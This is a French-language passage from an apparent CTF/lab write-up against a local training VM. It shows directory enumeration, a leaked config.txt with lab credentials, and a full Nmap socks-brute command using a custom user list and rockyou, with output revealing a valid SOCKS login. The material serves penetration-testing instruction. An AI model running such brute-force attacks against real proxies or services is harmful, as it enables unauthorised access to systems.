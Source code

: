 ```plain
403        9l       28w      277c http://192.168.56.9/override
--- snip ---
```

Là encore le serveur n'a pas été un foudre de guerre et c'est finalement en cherchant les fichiers texte sur la racine que j'ai obtenus quelques détails intéressants.  

Il y a par exemple un *CHANGELOG.txt* avec le numéro de version *V1.5.0 QloApps* mais surtout le fichier *config.txt* avec le contenu suivant :  

```plain
Service-Access to camera-surveillance network: 192.168.1.0/24
..
Username: Prime
password: temppassword (changed regulary )
```

Chaussettes trouées
-------------------

Cette note mentionne un réseau différent mais les identifiants ne semblent pas fonctionner pour le serveur SOCKS.  

Au passage Firefox ne permet pas de spécifier des identifiants pour un proxy SOCKS il a donc fallut installer [l'extension Proxy Toggle](https://addons.mozilla.org/en-US/firefox/addon/proxy-toggle/) qui fait bien le taff.  

Les identifiants n"étant pas acceptés sur l'appli web il est tant de bruteforcer le proxy SOCKS. Nmap dispose d'un module pour cela mais utilise par défaut sa propre liste de comptes et mots de passe.  

Un module Nmap hérite souvent de modules de base et pour savoir quelles options passer il faut un peu fouiller dans la documentation [du module](https://nmap.org/nsedoc/scripts/socks-brute.html) et du module parent [pour le brute force](https://nmap.org/nsedoc/lib/unpwdb.html#script-args).  

J'ai créé une petite liste d'utilisateurs à partir des infos glanées jusqu'à présent :  

```plain
prime
Prime
worstwestern
hotel
guest
worst
western
global
```

puis j'ai fournit la fameuse wordlist rockyou pour les mots de passe :  

```bash
$ nmap --script socks-brute --script-args userdb=wordlist.txt,passdb=rockyou.txt -p 1080 192.168.56.9

Nmap scan report for prime.worstwestern.com (192.168.56.9)
Host is up (0.00029s latency).

PORT     STATE SERVICE
1080/tcp open  socks
| socks-brute: 
|   Accounts: 
|     Prime:tinkerbell1 - Valid credentials
|_  Statistics: Performed 381182 guesses in 900 seconds, average tps: 411.5

Nmap done: 1 IP address (1 host up) scanned in 918.24 seconds
```
